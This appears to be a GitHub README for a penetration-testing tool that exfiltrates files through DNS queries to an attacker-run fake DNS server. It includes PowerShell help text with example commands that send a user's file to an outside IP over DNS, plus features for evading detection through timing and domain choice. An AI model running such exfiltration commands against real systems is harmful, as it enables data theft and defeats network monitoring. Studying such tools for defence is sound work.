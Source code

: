 # DNS Exfil Tools

Simple penetration testing tools to execute file exfiltration through DNS and avoid common detection methods.

> Modules caption: \
:heavy_check_mark: Available \
:large_blue_circle: Under development \
:white_circle: To be developed

<br>

## Client Exfiltration
Deploy these tools on the target machine to exfiltrate files through DNS requests.
I'm still developing the client side for more than one programming language, to provide more compatibility with the system you are testing.

| Language | Available | Compression | Encryption |
| ------ | ------ | ------ | ------ |
| python3      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| powershell   | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:heavy_check_mark:  | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:large_blue_circle: |
| python2      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |
| Compiled C++ | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle:      | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: | &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;:white_circle: |

<br>

### Powershell module
Use the cmdlet `Get-Help` to get execution informations. You can use `Get-Help -detailed` to print a decent overview.
Here is an instance:
```
NAME
    C:\Users\User\Desktop\dnsexfil.ps1

SYNOPSIS
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine

SYNTAX
    C:\Users\User\Desktop\dnsexfil.ps1 [-Server] <String> [-Domain] <String> [-File] <String> [[-Timeout] <Single>]
    [[-Length] <Int32>] [-Hash] [<CommonParameters>]


DESCRIPTION
    Post-exploitation tool to execute DNS exfiltration to your pentesting machine
    At leats three parameters are needed:
    - Specify DNS resolver as Server parameter
    - Specify filename
    - Specify the fake or legit domain you want to query
    The fakeDNS-server must be listening on your machine

PARAMETERS
    -Server <String>
        (Required) IP address of the listening DNS resolver

    -Domain <String>
        (Required) Fake or legit domain for DNS queries. Your fakeDNS-server will answer to both

    -File <String>
        (Required) Path to the file to exfiltrate through DNS queries

    -Timeout <Single>
        (Optional) Set a timeout between queries to slow down or speed up exfiltration. Default value is 2s

    -Length <Int32>
        (Optional) Set the third domain length. Default value is 16

    -Hash [<SwitchParameter>]
        (Optional) Include hash calculation in exfiltration for integrity purposes

    <CommonParameters>
        This cmdlet supports the common parameters: Verbose, Debug,
        ErrorAction, ErrorVariable, WarningAction, WarningVariable,
        OutBuffer, PipelineVariable, and OutVariable. For more information, see
        about_CommonParameters (https:/go.microsoft.com/fwlink/?LinkID=113216).

    -------------------------- EXAMPLE 1 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt

Use 10.10.80.129 as the fakeDNS-server, and send the file C:\Users\Name\file.txt asking for resolution of
    [***].fakedomain.com:

    -------------------------- EXAMPLE 2 --------------------------
    PS C:\>.\dnsexfil.ps1 -Server 10.10.80.129 -d fakedomain.com -File C:\Users\Name\file.txt -Length 32 -Timeout 10 -Hash

Queries will be like [32-long-chunk].fakedomain.com and going out every 10 seconds:

    




```

### Features
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set timeout between DNS requests to slow down exfiltration and prevent detection |
| :heavy_check_mark:  | Set random timeout between requests to prevent periodically checks detection |
| :heavy_check_mark:  | Set fake domain or legit domain for DNS queries, the DNS server listening on your machine will respond to both |
| :heavy_check_mark:  | Set custom exfiltration third level domain chunks length |
| :heavy_check_mark:  | Optional: print server's response as record A resolution to verify queries |

### @todo
| | |
| ------ | ------ |
| :large_blue_circle: | Send filename as first action |
| :large_blue_circle: | Compress exfiltrating files to make the transfer faster |
| :large_blue_circle: | Optional: md5 file hash trasmission before file content for integrity checks|
| :white_circle:      | Optional: file encryption to prevent network sniffers to rebuild exfiltrated artifacts |
| :white_circle:      | Optional: Send multiple files at once |
| :white_circle:      | Optional: Send entire directory as compressed file |

<br>
<br>

## Fake DNS Server
Developed with Python3, the server module will provide a simple fake DNS server to get client's queries from your attacking machine, and responde with a spoofed IP of your choice (default is google.com's).

### Features
| | |
| ------ | ------ | 
| :heavy_check_mark:  | Set custom IP to spoof as record A response |
| :heavy_check_mark:  | Set custom domain for further automated file decode |
| :heavy_check_mark:  | Set custom UDP port for DNS service (default is 53) |

### @todo
| | |
| ------ | ------ | 
| :large_blue_circle: | Get filename from exfiltration first chunk |
| :large_blue_circle: | Optional: automated file decode/save |
| :large_blue_circle: | Compression receiving capabilities |
| :white_circle: | Optional: file decryption and save |

<br>
<br>

## Use case
### Attacker side (fake DNS server)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/fakeDNS-server3.gif)
### Victim side (exfiltration tool)
![](https://raw.githubusercontent.com/synth3sis/DNSexfiltools/main/media/dnsexfil3.gif)
